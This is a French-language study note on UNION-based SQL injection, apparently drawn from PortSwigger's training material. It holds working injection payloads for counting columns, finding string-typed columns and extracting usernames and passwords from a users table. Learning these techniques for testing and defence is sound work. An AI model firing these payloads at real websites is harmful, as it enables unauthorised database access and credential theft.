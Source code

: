 # Union SQL Injection
_Source_ : https://portswigger.net/web-security/sql-injection/union-attacks 
Condition:
La requête doit retourner le même nombre de colonnes
Les types de chaques colonne doit être compatible.

Il faut donc trouver le nombre de colonne et lesquels permettent de contenir les résultats attendus.

## 1.Définir le nombre de colonne
### Injection de ORDER BY
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
...
```
Une erreur surviendra quand le nombre de colonne de la requête sera dépassé.

### Injection de select null
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
...
```
Seul la requête avec le bon nombre de colonne ne retrournera pas d'erreur.
On utilise ici null car il sera toujours considéré comme compatible avec n'importe quel type
**!Oracle impose d'utiliser FROM** Dans ce cas on peut utiliser la table par défaut DUAL.
```sql
' UNION SELECT NULL FROM DUAL--
' UNION SELECT NULL,NULL FROM DUAL--
' UNION SELECT NULL,NULL,NULL FROM DUAL--
...
```

**! MySQL nécessite un espace après <code>--</code>** pour être considéré comme un commentaire. Il est également possible d'utiliser <code>#</code>

## 2.Définir les colonnes utiles
Pour définir les colonnes utilisant un type de données exploitable, il faut tester un à un les colonnes comme suit:
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Si aucune erreur n'est générée, cela signifie que la colonne est compatible avec les chaînes de caractères.

**! les doubles quotes risque de ne pas fonctionner.**

## Exploitation
Une fois 1 et 2 définis.
### Injection classique
On peut ajouter les colonnes à récupérer d'une table voulu. 
Exemple d'injection:
```sql
' UNION SELECT username, password FROM users--
```
### Injection averc une seule colonne exploitable
Il faut alors concaténer les colonnes ainsi:
```sql
' UNION SELECT username || '~' || password FROM users--
```

Dans le champs à tester :
```sql
10' union select 1,2,3,4,5,6 -- -
```
Il peut être nécessaire de faire varier le nombre de colonne dans la requête.